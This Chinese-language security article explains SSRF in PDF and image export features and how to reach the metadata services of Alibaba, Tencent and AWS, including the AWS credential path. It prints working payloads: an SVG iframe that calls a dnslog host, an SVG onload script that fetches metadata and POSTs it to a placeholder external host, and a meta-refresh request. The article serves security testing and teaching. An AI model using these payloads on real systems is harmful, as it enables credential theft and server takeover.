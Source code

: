 

# 奇安信攻防社区 - 文件导出功能的 SSRF

### 文件导出功能的 SSRF

本文讲述一下 ssrf 加 metadata 的利用方式，其他常规利用方式，好多师傅已经写过了这里就不再赘述。

# 0x00 前言

文章开始前我们先讲述一下 metadata service，也就是云服务器的元数据，每个云服务器厂商都有元数据，只是获取的接口地址不同，获取到的内容也不一样，有些元数据中是可以获取到登录凭证，可以直接接管服务器。由于元数据只能在云服务器上请求特定地址才能获取到，所以也常常用来作为 ssrf 利用方式的一种。

# 0x01 metadata service

## 阿里云

URL：[http://100.100.100.200](http://100.100.100.200/)

基本实例元数据项，就不做展示了，感兴趣的可以查看下官方文档[https://help.aliyun.com/document\\\_detail/214777.htm?spm=a2c4g.11186623.0.0.777a4a07R5OHxw#concept-2078137](https://help.aliyun.com/document%5C_detail/214777.htm?spm=a2c4g.11186623.0.0.777a4a07R5OHxw#concept-2078137)

动态实例元数据项

|     |     |     |
| --- | --- | --- |
| **数据项** | **说明** | **示例** |
| /dynamic/instance-identity/document | 实例标识文档，用于提供实例的身份信息，包括实例 ID、IP 地址等。 | {"zone-id":"cn-hangzhou-i","serial-number":"4acd2b47-b328-4762-852f-99\*\*\*\*","instance-id":"i-bp13znx0m0me8cq\*\*\*\*","region-id":"cn-hangzhou","private-ipv4":"192.168.XX.XX","owner-account-id":"1609\*\*\*\*","mac":"00:16:3e:0f:XX:XX","image-id":"aliyun\_3\_x64\_20G\_alibase\_20210425.vhd","instance-type":"ecs.g6e.large"} |
| /dynamic/instance-identity/pkcs7 | 实例标识签名，供其他方验证实例标识文档的真实性和内容。 | MIIDJwYJKoZIhvcNAQcCoIIDGDCCAxQCAQExCzAJBgUrDgMCGgUAMIIBYQYJKoZIhvcNAQcBoIIBUgSCAU57InpvbmUtaWQiOiJjbi1oYW5nemhvdS1oIiwic2VyaWFsLW\*\*\*\* |

## 腾讯云

URL：[http://metadata.tencentyun.com/latest/meta-data/](http://metadata.tencentyun.com/latest/meta-data/)

能够获取的信息比较少，可以查看下官方文档[https://cloud.tencent.com/document/product/213/4934](https://cloud.tencent.com/document/product/213/4934)

## AWS

URL：[http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)

访问[http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-default-ssm/](http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-default-ssm/)

可以直接获取 AccessKeyId 和 SecretAccessKey

官方文档[https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)

# 0x02 导出功能 SSRF 测试

1、有些网站存在功能，能够将一些将数据分析的表格导出为 pdf 或者图片，如下 POST 数据包，html 文件就是我们要导出的内容，而这里存在 ssrf 漏洞

![](assets/1708220056-c3cadd9566a272be0f00d68deae11b28.png)

2、我们将 html 内容修改为

`<svg><iframe src="[http://123312.h41t0y.dnslog.cn"](http://123312.h41t0y.dnslog.cn") width=" " height=" "/></svg>`

![](assets/1708220056-f51ae2098e4c68c1066e76bff82898f8.png)

可以看到成功触发了 dnslog 请求，说明此处是存在 SSRF 漏洞的。

![](assets/1708220056-cd3771fac692142d3b0e70aed7da647c.png)

# 0x03 SVG SSRF

由于 SVG 的功能十分丰富，所以能够处理 SVG 的服务器就很有可能遭受到 SSRF、XSS、RCE 等的攻击，特别是在没有禁用一些特殊字符的情况下。

GitHub 上有个大佬整理了丰富的 svg 攻击 payload

[https://github.com/allanlw/svg-cheatsheet](https://github.com/allanlw/svg-cheatsheet)

我们可以利用如下 payload 去获取 metadata service 中的数据信息。

首先加载一个可以远程获取到的图片，加载成功后，会触发 onload 事件；

使用 Fetch API 接口，将元数据信息在存储到“params”参数中；

服务器向 URL 地址发起携带 params 的 POST 请求，这样我们就可以在历史数据包中找到我们想要的元数据信息了。

同理此方法也可以获取其他想要的数据信息。

```php
<svg width="100%" height="100%" viewBox="0 0 100 100" 
xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<image xlink:href="https://www.baidu.com/img/flexible/logo/pc/result@2.png" height="20" width="20" onload="fetch('http://metadata.tencentyun.com/latest/meta-data/').then(function (response) {
response.text().then(function(text) {
var params = text;
var http = new XMLHttpRequest();
var url = 'https://xxxxxxxxxxxxxxxx/';
http.open('POST', url, true);
http.send(params);
})});" />
</svg>
```

![image.png](assets/1708220056-f5ab788f6b83ed9b04b2b142bba78434.png)

# 0x04 meta refresh

## 利用：

当一些特殊标签比如<svg>,<Iframe>等被禁用后，我们可以使用<meta>0 秒刷新请求元数据，以下为具体 payload

```php
<meta http-equiv="refresh" content="0;url=http://metadata.tencentyun.com/latest/meta-data" />
```

那么目标服务器的 metadata 信息就会打印在输出的 PDF 文件上

![](assets/1708220056-2cf82a9c670375935cda0546b427af7f.png)

![](assets/1708220056-2e1624d9b31547998484f0475d3312eb.png)

## 拓展

应用程序导出数据为 PDF 或图片，会产生 ssrf 的原因，我认为是后端在处理数据的时候，没有进行过滤，导致了恶意代码的运行，那么我们在任意文件上传的漏洞，是不是可以直接上传 svg 文件，达到一些命令执行的效果呢

## 参考

[https://github.com/allanlw/svg-cheatsheet](https://github.com/allanlw/svg-cheatsheet)

[https://infosecwriteups.com/svg-ssrfs-and-saga-of-bypasses-777e035a17a7](https://infosecwriteups.com/svg-ssrfs-and-saga-of-bypasses-777e035a17a7)

[https://twitter.com/kunalp94/status/1502527605836173312](https://twitter.com/kunalp94/status/1502527605836173312)
